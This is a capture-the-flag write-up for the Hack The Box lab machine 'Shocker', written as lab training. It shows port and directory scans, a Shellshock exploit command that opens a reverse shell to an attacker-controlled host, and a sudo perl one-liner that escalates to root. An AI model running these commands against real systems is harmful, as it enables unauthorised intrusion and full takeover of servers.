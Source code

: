 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Shocker
- Description: Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
- Difficulty: Easy
## Initial Access

Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this info I can try to visit the page:

![assets/images/2024-01-19-shocker-writeup-image-1.png](assets/images/2024-01-19-shocker-writeup-image-1.png)

Nothing too crazy stands out, I can try to check for dirsearch while I enumerate this apache version:
```bash
HTB dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e sh -f -u  http://10.10.10.56/cgi-bin/ 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: sh | HTTP method: GET | Threads: 64 | Wordlist size: 661635

Output File: /home/kali/.dirsearch/reports/10.10.10.56/-cgi-bin-_24-01-19_09-25-34.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_09-25-34.log

Target: http://10.10.10.56/cgi-bin/

[09:25:35] Starting: 
[09:25:35] 200 -  118B  - /cgi-bin/user.sh
```

I can see that we have /cgi-bin/user.sh, this is screaming shellshock so I'll try to exploit it:

```bash
HTB python2 34900.py payload=reverse rhost=10.10.10.56 rport=80 lhost=10.10.14.14 lport=443 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56>
```

We got a shell!
## Privilege Escalation

Checking sudo permissions:
```bash
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

```bash
shelly@Shocker:/usr/lib/cgi-bin$  sudo perl -e 'exec "/bin/sh";' 
# whoami
root
```

Very simple root!
## Beyond Root

Now since I can't update the machine, what I'll do is get rid of the vulnerable script user.sh

As far as root goes, I'll get rid of the sudo perl usage

best,
gerbsec